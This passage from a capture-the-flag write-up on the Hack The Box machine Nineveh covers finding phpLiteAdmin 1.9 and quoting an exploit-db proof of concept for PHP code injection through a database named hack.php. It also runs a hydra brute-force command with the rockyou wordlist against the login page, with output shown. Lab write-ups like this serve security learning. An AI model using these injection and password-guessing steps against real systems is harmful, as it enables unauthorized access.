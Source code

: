 `/db/` sounds interesting:

<a href="/img/blog/htb-nineveh/htb-nineveh-07.png" target="_blank"><img class="centerImgHuge" src="/img/blog/htb-nineveh/htb-nineveh-07.png"></a>

This `PHP LiteAdmin` is running version 1.9 which after doing a searchploit query is vulnerable to multiple exploits. 

```console
root@EdgeOfNight:~# searchsploit php Lite Admin 1.9
---------------------------------------------------------------------------------------------
 Exploit Title                                           |  Path
                                                         | (/usr/share/exploitdb/platforms/)
---------------------------------------------------------------------- ----------------------
PHPLiteAdmin 1.9.3 - Remote PHP Code Injection           | php/webapps/24044.txt
phpLiteAdmin 1.9.6 - Multiple Vulnerabilities            | php/webapps/39714.txt
---------------------------------------------------------------------- ----------------------
```
From `PHPLiteAdmin 1.9.3 - Remote PHP Code Injection`:
```console
An Attacker can create a sqlite Database with a php extension and insert PHP Code as text fields. When done the Attacker can execute it simply by access the database file with the Webbrowser.

Proof of Concept:

1. We create a db named "hack.php".
(Depending on Server configuration sometimes it will not work and the name for the db will be "hack.sqlite". Then simply try to rename the database / existing database to "hack.php".)
The script will store the sqlite database in the same directory as phpliteadmin.php.

2. Now create a new table in the database and insert a text field with the default value:
<?php phpinfo()?>
```

Fortunately for me I've encountered same exploit once already in one of my other blogs - [zico2](https://v3ded.github.io/ctf/zico2.html){:target="_blank"}. It's a lengthy process of creating a database which is then miss-translated into php code that gets executed on a target server. But for all of this to work we need to be authenticated first! Fire our good old hydra again :-).

```console
root@EdgeOfNight:~# hydra 10.10.10.43 -l whatever -P /usr/share/wordlists/rockyou.txt https-post-form "/db/:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password." -V -s 443

Hydra v8.5 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
Hydra (http://www.thc.org/thc-hydra) starting at 2017-12-16 07:35:48
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking service http-post-form on port 443 with SSL
[DATA] with additional data /db/:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password.
[ATTEMPT] target 10.10.10.43 - login "whatever" - pass "123456" - 1 of 14344399 [child 0] (0/0)
[ATTEMPT] target 10.10.10.43 - login "whatever" - pass "12345" - 2 of 14344399 [child 1] (0/0)
[ATTEMPT] target 10.10.10.43 - login "whatever" - pass "123456789" - 3 of 14344399 [child 2] (0/0)
[ATTEMPT] target 10.10.10.43 - login "whatever" - pass "password" - 4 of 14344399 [child 3] (0/0)
[ATTEMPT] target 10.10.10.43 - login "whatever" - pass "iloveyou" - 5 of 14344399 [child 4] (0/0)
```